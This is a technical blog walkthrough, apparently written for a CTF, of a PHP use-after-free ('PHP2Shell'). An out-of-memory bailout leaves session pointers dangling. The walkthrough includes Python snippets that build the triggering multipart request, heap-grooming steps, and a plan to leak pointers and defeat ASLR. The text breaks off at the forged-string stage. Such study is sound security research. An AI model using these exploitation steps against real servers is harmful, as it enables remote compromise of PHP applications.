




I started writing this research on October 26, 2026, and I'm not entirely sure when I'll finish it.
At the time of writing, there is still very little information available about PHP2Shell, particularly when it comes to detailed technical analysis of the vulnerabilities and the exploitation process.
Honestly, I was getting tired of finding explanations that only scratched the surface without actually showing what was happening internally. I wanted to do something different: a proper, in depth technical walkthrough that explores the entire process, examining every important detail and explaining not just WHAT happens, but WHY and HOW it happens.
This research is based on my own understanding of the PHP source code, my experiments, and the investigations I've conducted while trying to understand these vulnerabilities. I wanted to put all these pieces together, share my findings, and hopefully make some of the underlying concepts easier to understand for others.
One of my main goals was to make this accessible without sacrificing technical depth. I want someone with basic C knowledge and general programming experience to be able to follow along, even without any previous experience in low level memory exploitation.
I also hope this research can help clarify some of the things that are currently poorly explained or misunderstood. However, I want to be transparent: this is my own technical understanding of the vulnerabilities, not an official analysis or an infallible reference. I'm still learning, investigating, and connecting the dots myself. There may be mistakes, inaccuracies, or things I've misunderstood along the way.
If you notice something incorrect, have a different interpretation, or think something deserves further investigation, please don't hesitate to contact me. I'd genuinely appreciate corrections, discussions, and contributions that could help make this research more accurate and useful to everyone.
After all, the whole point of sharing this is to learn together and help more people understand what's actually happening under the hood.
Quick Navigation
Already familiar with the basics?? Jump straight to the part you care about:
- Before we start: stack vs heap, memory allocation basics
- How is This Dangerous?: the tale of the stale pointer, UAF reads and writes
- The Stale Pointer: where it comes from:the UAF origin story inside PHP's session + OOM interaction
- Building the attack request: the actual HTTP request that triggers the OOM
- The Goal: what we need to leak and why (heap pointer + code pointer)
- The Target Struct: zend_string: the struct PHP reads when building the session cookie
- Reclaiming the Memory: Request #2 and the target zend_string struct
- Heap Grooming Deep Dive: how we position forged data into the exact right memory slot
- The multipart_buffer_read_body Mystery: the hidden allocation that almost broke my brain
- Two Leaks Not One: why the heap leak and code leak need different calibrations
- Code Leak (Stage 3): leaking a function pointer to defeat ASLR
- Fingerprinting: how we know we got the right pointer
- Parsing the Heap Leak: finding the chunk base in 256 bytes of chaos
- The 1+8 Pipeline: how both leaks are actually delivered
- Reusing the Allocator to Forge a Structure: the pDestructor hijack idea
- The Trigger: PHP does the dirty work, real zend_hash_destroy code
- Three Structures in One: ForgedArray + FakeExecuteData + FakeString in 384 bytes
- Final Payload (Stage 4): forging a HashTable to hijack pDestructor and get RCE
- The Primer Mechanism: how the freed primer's ghost in bucket[2] triggers the destruction chain
- Command Output Trick: finding your own TCP socket in /proc
- The Full Pipeline: all four stages end to end
- Calibrating for a Different Build: how every number comes from heap analysis of a specific PHP build
- Real World Friction: why this attack is way harder on a real production server
- Steal My Bitcoin CTF: the challenge that started all this
- Acknowledgements: credits and references
If you're new to heap exploitation or want the full experience, just keep scrolling. I wrote this to be read start to finish.
Before we start
Before diving into the vulnerabilities themselves, there are a few fundamental concepts we need to understand.
(skip if you already know)
Stack vs. heap
In a typical program, memory is organized into different regions, including the stack and the heap.
For example, in C++:
int main() {
int a = 30; // Typically stored on the stack
int* b = new int(30); // b is typically on the stack,
// but the integer it points to is on the heap
}Here, a is a local variable containing the value 30. The pointer b is also a local variable, but it contains the address of an integer allocated on the heap.
How memory allocation works
PHP is written mainly in C, so we have to understand how memory allocation works.
The OS provides a process with its own virtual address space. The process's memory allocator then manages allocations within the memory available to it.
For example, in C++, we have new, malloc(), and other ways to allocate memory.
Allocators often try to reuse freed memory instead of requesting new memory from the OS every time.
Also, when an object's lifetime ends, the data that was stored in its memory isn't necessarily erased immediately. That memory can simply be marked as available for reuse.
To better understand this, let's take a small look at the following code:
#include <cstdlib>
#include <iostream>
int main() {
void* a = malloc(64);
free(a);
void* b = malloc(64);
std::cout << a << "\n" << b << std::endl;
free(b);
return 0;
}Here, when we print a and b, we may find that they contain the same numerical memory address.
Why? Because malloc() may reuse the memory previously allocated to a after we call free(a), avoiding the need to obtain another block of memory.
This isn't guaranteed to happen every time, but it's a common behavior.
How is This Dangerous? The Tale of the Stale Pointer
This brings us to the core of the issue. We know that memory gets recycled, but what happens to the variables that were holding those memory addresses?
When you call free(a), the memory allocation system simply updates its internal records to mark that chunk of memory as available for reuse. However, the data inside that memory is not wiped clean, and the pointer variable itself doesn't magically reset to NULL. Unless the programmer explicitly clears it the pointer continues to hold the exact same memory address it did before.
This leftover variable is what we call a stale pointer (or a dangling pointer).
Having a stale pointer can be dangerous in several ways. Two of the most critical are reading data that no longer belongs to the original object, and corrupting a new object by writing through the old pointer.
Reading another object's data (Use-After-Free)
Imagine we allocate memory for a user account:
struct User {
char username[24];
int is_admin;
};
int main() {
// 1. Allocate memory for a user
User* a = (User*)malloc(sizeof(User));
// Initialize the original user
strcpy(a->username, "alice");
a->is_admin = 0;
// We keep a copy of the pointer to demonstrate the bug
User* a_stale = a;
// 2. Free the memory. The object is gone, but a_stale still holds the address!
free(a);Now, just after this, suppose the program does another allocation somewhere else, and the allocator reuses the same address:
User* b = (User*)malloc(sizeof(User));
strcpy(b->username, "jack");
b->is_admin = 1;So, b now lives exactly where a used to live. But a_stale still points there because we freed a, and nothing updated a_stale.
So, the code that still uses a_stale thinks it's looking at Alice's data, but it may actually be accessing Jack's data:
if (a_stale->is_admin) {
// This may run, even though Alice was never an admin
printf("Welcome admin %s\n", a_stale->username);
}With this, we may access data we're not supposed to see, such as Jack's username, and the program might make an incorrect authorization decision.
Technically, accessing freed memory is "undefined behavior" in C/C++, so the exact result isn't guaranteed depending on the compiler and system. But this illustrates the underlying problem.
In reality, however, it's not quite this simple. You're probably thinking: "Yeah, this is nice, but..."
For this to work, we need a stale pointer in the first place. In a real attack, we aren't writing the victim's program, so we can't just intentionally save a pointer to a variable like we did with a_stale. The bug has to already exist inside the code...
The attacker only gets to influence what lands in that freed memory slot.
For now, just make sure you understand this deeply, because the answer to that question will be the most important part of the PHP CVEs we're discussing.
Modifying another object's data (Memory Corruption)
Now imagine the opposite: the program keeps using an old pointer to write to memory after it has been freed.
#include <cstdlib>
#include <cstdio>
int main() {
int* a = (int*)malloc(sizeof(int));
*a = 42;
int* stale = a; // Keep another pointer to the allocation
free(a);
// Another allocation may reuse the same address
int* b = (int*)malloc(sizeof(int));
if (b != nullptr) {
*b = 100;
// BUG: stale still holds the old address.
// Writing through it is undefined behavior.
*stale = 999;
printf("%d\n", *b); // Might appear to print 999
}
free(b);
return 0;
}If the allocator reused the address, stale may have the same numerical address as b. So, the write through stale might appear to land inside b's memory and change its value from 100 to 999, even though the code never explicitly wrote 999 to b.
Now imagine b wasn't a simple integer but something important, like an is_admin flag, a length, or a function pointer.
That's where this becomes a potential security vulnerability and not just a bug.
So where does PHP get its own stale pointer?
Earlier I said: "The bug has to already exist inside the program: it frees something while another part of the code still holds a pointer to it."
This is exactly the question we need to answer for PHP2Shell. PHP doesn't hand an attacker a stale pointer on purpose... no, PHP isn't that generous.
That pointer is the result of a subtle flaw in how a legitimate PHP feature interacts with the error handling mechanism of the Zend Engine (PHP's core).
PHP workers are not "one program, one run"
The first thing that's easy to miss if you're used to writing a main() that runs once and exits: a PHP web server doesn't start a fresh process for every HTTP request. A small pool of worker processes stays alive and handles request after request, reusing the same memory space.
One worker process, over time:
┌──────────────┐ ┌──────────────┐ ┌──────────────┐
│ Request #1 │ │ Request #2 │ │ Request #3 │ ...
└──────────────┘ └──────────────┘ └──────────────┘
same heap same heap same heap
same globals same globals same globalsCompare that to a standard C program that allocates, frees, and exits with a clean slate on each end of a function. A PHP worker is a continuous loop. Even though it has a memory manager (Zend MM) that cleans up the heap between requests, global variables in the C code retain their values unless explicitly zeroed out. Anything left dangling in iteration #1 is still sitting there in iteration #2.
session.upload_progress (the main cause of everything)
Who wouldn't want to have a progress bar showing the state of a big file upload? PHP developers asked the same question and built a feature where, during a file upload, a hidden form field called PHP_SESSION_UPLOAD_PROGRESS makes PHP automatically track the upload's progress.
The critical detail about this feature is when it runs. This tracking code executes as part of PHP parsing the incoming HTTP request before your application's own PHP script (like index.php) even starts executing.
To do this, PHP intercepts the multipart form data and manages the session state using "Basic Globals" (accessed via the BG() macro in C). When PHP needs to parse existing session data to inject the progress information, it sets up tracking tables in these global structures.
Here is where this happens in the real PHP source code:
File: ext/standard/var_unserializer.re (Around line 60, inside php_var_unserialize_init)
/*
* Create a new bookkeeping structure if serialization is locked
* or if no unserialization operation is currently active.
*/
PHPAPI php_unserialize_data_t php_var_unserialize_init(void) {
php_unserialize_data_t d;
if (BG(serialize_lock) || !BG(unserialize).level) {
d = emalloc(sizeof(struct php_unserialize_data));
d->last = &d->entries;
d->first_dtor = d->last_dtor = NULL;
d->allowed_classes = NULL;
d->ref_props = NULL;
d->cur_depth = 0;
d->max_depth = BG(unserialize_max_depth);
d->entries.used_slots = 0;
d->entries.next = NULL;
/*
* In the normal, unlocked path, save the structure's address
* in Basic Globals and mark the outermost operation as active.
*/
if (!BG(serialize_lock)) {
BG(unserialize).data = d;
BG(unserialize).level = 1;
}
} else {
/*
* A nested operation reuses the existing bookkeeping
* structure rather than allocating another one.
*/
d = BG(unserialize).data;
++BG(unserialize).level;
}
return d;
}I've left out some initialization details to keep things simple, but the important part is still there. I'll also mention the exact source file each time so you can check the code yourself if you want to dive deeper.
At this exact moment, BG(unserialize).data points to a freshly allocated chunk of memory. Because it's a global variable attached to the PHP worker process, it's accessible anywhere during the request lifecycle.
Normally this data should be cleaned up when the unserializer is destroyed but... there's a specific condition where that cleanup can be skipped, We'll see exactly how that happens in the next part.
The bailout: PHP's version of "the free() happens, but nothing clears the pointer"
Here we are, inside the critical part. But before we get into the details, let's take a quick step back.
C doesn't have built in exception handling. So, as a developer, what do you do when something goes wrong in the middle of execution? For example, what if PHP runs out of memory while allocating something or encounters a fatal error while parsing session data?
Well, PHP has its own emergency exit mechanism for situations like these: the bailout.
Think of it as an emergency eject button. When something goes seriously wrong, PHP can jump out of the current execution path instead of continuing as if nothing happened.
In simple terms, you can think of zend_try and zend_catch as PHP's engine-level equivalent of a try/catch mechanism. They're built around PHP's bailout mechanism and allow the engine to handle certain fatal errors without simply continuing normal execution.
But here's the interesting part... under the hood, PHP uses C macros called zend_try and zend_catch which wrap the standard C functions setjmp and longjmp. When longjmp() is called, execution jumps back to a previously saved setjmp() point. Normal execution is interrupted, meaning cleanup routines may be completely bypassed if the code isn't handled correctly.
Now, imagine PHP is processing a massive or deeply nested session payload and needs to allocate more memory. If an allocation hits PHP's memory_limit, and the engine's bailout skips code responsible for cleaning up the unserializer's state, what happens to the memory and pointers it was managing?
That's where things start to get interesting...
Here is the out of memory handling function.
File: Zend/zend_alloc.c (Around line 400, inside zend_mm_safe_error):
static ZEND_COLD ZEND_NORETURN void zend_mm_safe_error(zend_mm_heap *heap, const char *format, size_t limit, size_t size) {
heap->overflow = 1;
zend_try {
zend_error_noreturn(E_ERROR, format, limit, size); // "Allowed memory size exhausted"
} zend_catch {
} zend_end_try();
heap->overflow = 0;
/*
* THE TELEPORTER:
* longjmp() is called here. Execution instantly jumps straight
* back to the top-level request boundary.
*/
zend_bailout();
}Because execution instantly teleports out of the session processing logic, we have to look at the code that got left behind.
File: ext/session/session.c (Around line 1038, inside PS_SERIALIZER_DECODE_FUNC(php)):
break_outer_loop:
php_session_normalize_vars();
/*
* THE FATAL FLAW:
* This macro is supposed to destroy the hash table and, crucially,
* reset BG(unserialize).data to NULL.
*
* Because zend_bailout() teleported execution away during the loop above,
* THIS LINE IS NEVER REACHED.
*/
PHP_VAR_UNSERIALIZE_DESTROY(var_hash);
return retval;
}When the engine catches the bailout at the top level, it aborts the HTTP request. As part of tearing down the failed request, the Zend Memory Manager forcefully sweeps and frees all memory allocated during that request including the chunk BG(unserialize).data was pointing to.
The memory effectively becomes available for reuse again (PHP's own out of memory handling releases/recycles it). But because the bailout bypassed the normal cleanup path in session.c, the following function may never get called:
File: ext/standard/var_unserializer.re, inside php_var_unserialize_destroy():
PHPAPI void php_var_unserialize_destroy(php_unserialize_data_t d) {
if (BG(serialize_lock) || BG(unserialize).level == 1) {
var_destroy(&d);
efree(d);
}
if (!BG(serialize_lock) && !--BG(unserialize).level) {
BG(unserialize).data = NULL;
}
}Look closely at this line:
BG(unserialize).data = NULL;BINGO... THERE IT IS! This is where everything we've talked about starts to make sense. We've got a stale pointer! See what just happened?
It sits in a global structure belonging to the PHP worker process, surviving long after the memory it points to is no longer valid. When that worker process handles another HTTP request, the global pointer may still point to memory that has been freed and can now be reused for something else.
Sooo, in the end, PHP has been a little too generous with its memory for years...
Normal execution:
Initialize state
|
v
Parse session data
|
v
Destroy unserializer state
|
v
Clear global pointerBut if a bailout abandons the operation during parsing:
Initialize state
|
v
Parse session data
|
X OUT OF MEMORY!
|
v
zend_bailout()
|
v
Jump away from the normal path
The expected cleanup may never execute.The key idea is that the memory can be released while the pointer remains in the worker's state. If a later request accesses it before it has been reset, that creates a use-after-free opportunity
And after this I tried digging a little deeper and guess what? That was not the only pointer the bailout left behind... check this function:
File: php-src/ext/session/session.c:
static PHP_RSHUTDOWN_FUNCTION(session)
{
if (PS(session_status) == php_session_active) {
zend_try {
php_session_flush(1); /* save session data to disk */
} zend_end_try();
}
php_rshutdown_session_globals(); /* <-- THIS is what we care about */
/* ... rest of cleanup ... */
return SUCCESS;
}This is the session module’s Request Shutdown handler. At the end of every request, PHP is supposed to call this because it’s responsible for flushing the session to disk and then calling php_rshutdown_session_globals(), which does the actual pointer cleanup.
And if we go check inside php_rshutdown_session_globals() to see what’s actually happening there, we find a very interesting line:
File: php-src/ext/session/session.c:
static inline void php_rshutdown_session_globals(void)
{
/* ... close the save handler ... */
if (PS(id)) {
zend_string_release(PS(id)); /* free the string */
PS(id) = NULL; /* <-- THIS line. */
}
if (PS(session_vars)) {
zend_string_release(PS(session_vars));
PS(session_vars) = NULL;
}
PS(session_status) = php_session_none;
}PS(id) = NULL... at the end of every request, PS(id) is supposed to be NULL. Right?
But for the same reasons we saw earlier, PHP_RSHUTDOWN_FUNCTION(session) may never get called, and PS(id) is left dangling exactly the same way.
So now we have two stale pointers left behind by the same bailout: BG(unserialize).data and PS(id). Maybe even more, but the most interesting one for us is PS(id).
Why? Because PS(id) is a pointer that PHP reads through every time it needs to build the Set-Cookie header for the response. That means it can be used to read data. We'll see what it reads and how in the next parts.
For now, let’s take it step by step and see how we actually achieve the out-of-memory condition we’ve been talking about in practice.
How the attack is triggered
So, how does an attacker trigger this?
They send a crafted multipart request that causes PHP to run out of memory during session processing. If the bailout skips the normal cleanup, the worker may be left with a stale pointer after the request's memory is freed.
Now comes the important part: the same worker must handle another request while that stale state is still there. PHP's session.upload_progress handling can then access that state before it gets properly reset.
And that's the problem we've been building up to from the start: a use-after-free across requests.
Real practice: building the attack request
To bridge the gap between theory and practice, we will examine real exploit code at the end of every section. Keep in mind that all the snippets we'll look at throughout this entire guide aren't isolated examples but pieces from the complete exploit for the 'Steal My Bitcoin' challenge that you can find on my github profile.
bnd = COOKIE_BOUNDARY # Boundary marker separating multipart fields.
fields = [
mp_field(
bnd,
f"p{i:04d}".encode(),
b"X" * shape.field_value_size
)
for i in range(shape.field_count)
]
# shape.field_count = how many fields to generate.
# shape.field_value_size = how many bytes each field's value contains.
# mp_field() = helper that formats one multipart/form-data field.The mp_field() function generates:
------BOUNDARY
Content-Disposition: form-data; name="p0000"
XXX...XXX (1KB of data)
------BOUNDARY
Content-Disposition: form-data; name="p0001"
XXX...XXX (1KB of data)
------BOUNDARY
[... repeat for p0002 through p0049 ...]
------BOUNDARYWhat is this? Alright, let's go step by step.
The "Swiss Cheese" Heap grooming:
Instead of asking the operating system for memory one byte at a time, PHP's allocator grabs memory in large, clean blocks , usually 2 Megabytes (MB) at a time. It then slices those 2MB chunks into smaller slots for variables, strings, and arrays as your request runs.
On a busy web server, the current 2MB chunk is messy. Previous HTTP requests have allocated and freed memory randomly, leaving us with a fragmented landscape of used data and random empty holes.
If we send the critical PHP_SESSION_UPLOAD_PROGRESS marker right now, PHP might drop it into one of those unpredictable holes.
To avoid that, we start our request by sending 50 small, precisely calculated fields, just like the code above shows (from p0000 to p0049). By the time all 50 padding fields have been allocated, the leftover free spots from previous requests are completely consumed. The allocator's state is now clean and predictable.
Now, I can already hear the technical folks typing furiously...
And you're absolutely right. What I just described is a highly simplified version of what actually happens inside the Zend Memory Manager. The real picture involves complexities we don't need to tackle just yet. We will dive into the deeper mechanics later when we study how the allocator moves the Wilderness frontier as bins claim fresh pages, and how draining the freelists is exactly what forces the allocator into the Wilderness.
But I don't want to dump all of that on you right now. We'll get there, when we dig into the heap internals in full detail later, it will all make sense...I promise.
For now, just remember this: the 50 padding fields are not randomly filling holes. They're draining the previously allocated memory so the allocator is forced onto a clean, predictable path. Like filling in the holes in Swiss cheese so the next slice lands flat.
The Critical Payload Arrives:
Next, the HTTP request immediately sends the PHP_SESSION_UPLOAD_PROGRESS marker to activate the file upload process, then starts sending heavily nested arrays to cause the out-of-memory error.
fields += [
mp_field(bnd, b"PHPSESSID", b"\x00"), # Add the PHP session ID field with a null byte as its value.
mp_field(bnd, b"PHP_SESSION_UPLOAD_PROGRESS", b"ppp"), # Add the session upload progress field.
mp_field(bnd, b"f", b"A" * 64, b"a.txt") # Add a file field with a 64-byte value and filename "a.txt".
]------BOUNDARY
Content-Disposition: form-data; name="PHPSESSID"
\x00
------BOUNDARYTells PHP: "Hey, this request has a session"
------BOUNDARY
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"
ppp
------BOUNDARYtells PHP: "Activate upload progress tracking"
------BOUNDARY
Content-Disposition: form-data; name="f"; filename="a.txt"
Content-Type: application/octet-stream
AAAA...AAAA (64 A's)
------BOUNDARYuploading the file
for i in range(shape.count):
name = b"f[" + str(i).encode() + b"]" + b"[x]" * shape.depth
# Generate a field name using index i, followed by shape.depth nested [x] segments.
fields.append(mp_field(bnd, name, filename=b""))
# Add a multipart file field with the generated name and an empty filename.------BOUNDARY
Content-Disposition: form-data; name="f[0][x][x][x][x]...[x]"; filename=""
------BOUNDARY
Content-Disposition: form-data; name="f[1][x][x][x][x]...[x]"; filename=""
------BOUNDARY
Content-Disposition: form-data; name="f[2][x][x][x][x]...[x]"; filename=""
------BOUNDARY
[... 997 more fields, each with different index i ...]
------BOUNDARY
Content-Disposition: form-data; name="f[999][x][x][x][x]...[x]"; filename=""
------BOUNDARYLook at the kind of names we're generating:
f[0][x][x][x][x]...
f[1][x][x][x][x]...
f[2][x][x][x][x]...Rather than receiving a flat field name, PHP has to interpret the bracket notation as a nested input structure. The result is a request that requires substantial parsing work and memory allocation for its internal data structures.
Then we just pack everything into one request, send it, and pray it leaves the stale pointer pointing where we want it to be.
The goal ??:
OK so the OOM worked. The stale pointer is dangling. But before we dive into how the attacker exploits it, we need to understand what they're actually trying to achieve. Because blindly reading freed memory is useless if you don't know what to do with the information.
So we talked at the start of this document about the heap and the stack and how each process gets a specific memory area for itself alone and no other process can access it. But inside that area, where exactly do things sit?
that part isn't fixed because of something called ASLR.
ASLR (Address Space Layout Randomization): every time you run a program, the OS shuffles the deck. The heap, the stack, the shared libraries (like libphp.so) they all get loaded at a random base address instead of always the same one.
so even if the attacker got a way to access memory they will be stuck without knowing where anything actually sits, its whole job is to make memory corruption bugs useless on their own, because exploiting them properly usually means you need to point to somewhere specific, and if that "somewhere" moves every single run... good luck guessing it.
but keep in mind ASLR shifts the entire binary image as a single contiguous block. The relative offsets between functions inside libphp.so for example are fixed at compile time, baked into the ELF binary. So once the attacker has the address of any function inside libphp.so, they can calculate the address of every function.including zif_system, which will be extremely interesting for us later:
so to defeat this : step one is always the same use the vulnerability to read past what we are normally allowed to see, out into neighboring heap memory, and go looking for exactly two things to map the battlefield:
1. A heap pointer : to know where injected data lives
Many PHP internal structures contain pointers to other heap-allocated data. A perfect example is PHP's zend_array :
File: Zend/zend_types.h (HashTable struct):
struct _zend_array {
zend_refcounted_h gc;
union {
uint32_t flags;
} u;
uint32_t nTableMask;
Bucket *arData; /* <--- Pointer to the heap */
uint32_t nNumUsed;
uint32_t nNumOfElements;
uint32_t nTableSize;
uint32_t nInternalPointer;
zend_long nNextFreeElement;
dtor_func_t pDestructor; /* <--- Function pointer into executable code */
};If the over-read leaks a zend_array that's sitting in neighboring memory, the attacker can extract the arData pointer at offset 0x10. Because arData points to heap-allocated bucket storage, this raw address reveals where the heap lives.
And because the Zend allocator grabs memory in aligned 2 MiB blocks, the attacker can apply a simple bitmask (address & ~0x1FFFFF) to zero out the lower 21 bits of the leaked pointer. This instantly gives the exact starting base address of the entire heap chunk for that worker process. With the heap base located, the attacker knows the exact address of most objects they allocate on the heap moving forward.
2. A code pointer to know where PHP's executable functions live
The same zend_array struct also stores pDestructor a function pointer that PHP calls during cleanup to destroy array elements. For standard arrays, PHP sets this to zval_ptr_dtor, a compiled C function that lives in the .text segment of libphp.so.
If the leaked memory contains a zend_array with its pDestructor intact, the attacker gets the runtime address of zval_ptr_dtor and done he can calculate the other ones.
to resume : once you know where the heap starts and where libphp is loaded, the randomization doesn't matter anymore. You just add the right offsets and now you know exactly where everything is on that specific run. The shuffle already happened, but now you've seen where the cards landed.
before we move to the next point remember pDestructor, it also plays an important role in the final stage of the attack
now how does the attacker actually extract these pointers from a worker's memory?
Request #2: Reclaiming the Memory and Forging the String
Remember the C++ example where we freed Alice (a), but a_stale still pointed to that memory, and then we allocated Jack (b) in the exact same spot? This is exactly what happens here.
The attacker sends Request #2, carefully crafted to allocate a specific payload. The Zend Engine’s memory allocator trying to be efficient reuses the recently freed memory chunk from Request #1.
Now, the stale pointer (our a_stale) and the attacker’s new payload (our b) share the exact same memory address.(Of course, getting the Zend allocator to hand us back the exact same chunk isn't that simple and definitely not luck it requires precise manipulation. Keep reading, and we will see exactly how we manipulate the memory to guarantee this overlap and what the heap looks like while we do it)
The Target Struct: zend_string
To turn this stale read into a weapon, the attacker needs PHP to leak information. Remember? We said this pointer can be used to read. Here’s how.
PHP has a habit: every time it sends a response, it builds a Set-Cookie: PHPSESSID=... header, and to do that, it reads the bytes that PS(id) points to. And PS(id) points to a zend_string which is a C struct that represents strings internally,
it's written like this:
from php-src/Zend/zend_types.h around line 373 :
struct _zend_string {
zend_refcounted_h gc;
zend_ulong h; /* hash value */
size_t len; /* How many bytes to read */
char val[1]; /* The actual bytes, stored inline */
};take a look at that len field.
Because the attacker controls the data being sent in Request #2, they control the raw bytes that fill up this memory slot. This maps directly to the “Modifying another object’s data” concept from the earlier C++ examples. By sending a carefully structured payload, the attacker overwrites the memory where the len field of the zend_string is supposed to be with a big number.
